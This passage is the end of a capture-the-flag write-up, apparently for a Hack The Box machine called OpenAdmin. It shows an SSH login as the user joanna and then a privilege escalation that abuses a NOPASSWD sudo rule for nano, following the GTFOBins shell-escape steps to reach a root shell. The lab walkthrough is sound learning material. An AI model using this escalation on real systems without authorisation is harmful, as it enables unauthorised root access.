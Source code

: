 ```

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Apr  3 10:21:11 UTC 2022

  System load:  0.0               Processes:             172
  Usage of /:   31.0% of 7.81GB   Users logged in:       1
  Memory usage: 14%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Apr  2 17:25:45 2022 from 10.10.14.24
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
joanna@openadmin:~$
```

## Root
Now, as we found in earlier enumeration stages, we can leverage sudo to gain root access.  
```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Let's check [GTFOBins for nano](https://gtfobins.github.io/gtfobins/nano/#sudo) with sudo, and follow the below steps documented on GTFOBins.  
```
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```
And as we type we get a shell as root
```
# id
uid=0(root) gid=0(root) groups=0(root)
```
